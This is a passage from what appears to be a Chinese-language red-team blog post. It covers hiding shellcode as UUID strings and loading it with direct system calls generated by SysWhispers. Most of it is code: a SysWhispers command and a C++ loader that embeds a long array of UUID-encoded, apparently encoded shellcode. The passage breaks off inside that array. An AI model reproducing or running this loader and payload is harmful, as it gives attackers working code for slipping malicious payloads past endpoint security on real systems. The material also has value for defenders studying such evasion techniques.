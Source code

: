 ```shell
py .\syswhispers.py --preset common -o syscalls_common
```

![project setup](/img/posts/zxgangandy/uuid-shellcode/project-files.png)

這邊 `uuid-shellcode.cpp` 偷懶一下 就單純用一個 `NtAllocateVirtualMemory` system call 試試效果就好

```cpp
#include <Rpc.h>
#include <Windows.h>

#include <iostream>
#include <string>
#include <vector>

#include "syscalls_common.h"

#pragma comment(lib, "Rpcrt4.lib")

using namespace std;

const vector<string> uuids{
    "c9314890-8148-dde9-ffff-ff488d05efff",
    "bb48ffff-7a75-e857-7a66-e06d48315827",
    "fff82d48-ffff-f4e2-8932-d40c8a8e206d",
    "b9167a75-363b-3cb2-2332-663a1f2e6b3f",
    "badc3215-2e62-3f6b-5532-dc9a2a2eefda",
    "d91a303f-2eb3-add1-d946-3694784ac02c",
    "a95ab3b4-a77b-8002-273b-06a0f134c0e6",
    "e91f4637-edaa-e560-757a-57a0ffa6940a",
    "b8877b3d-2ef1-29f8-fe3a-77a17bb6033b",
    "a99e853d-52f1-2568-74ac-1ad9b32ed1ad",
    "21963bd9-2777-ace1-4d9a-22193665ac49",
    "396e3f7d-be0f-29b8-fe3a-73a17bb6862c",
    "ac1f76fe-26f1-24fc-74aa-16637eeea86c",
    "a90f3ba5-3822-37b9-3422-16b13b3ca8ee",
    "ba165a99-8685-2cb8-2c20-1f63688fb792",
    "a00a858a-67c0-6de0-757a-57e87a2e6de0",
    "e8577b74-dc3b-e6d1-1afd-a83dc19655cf",
```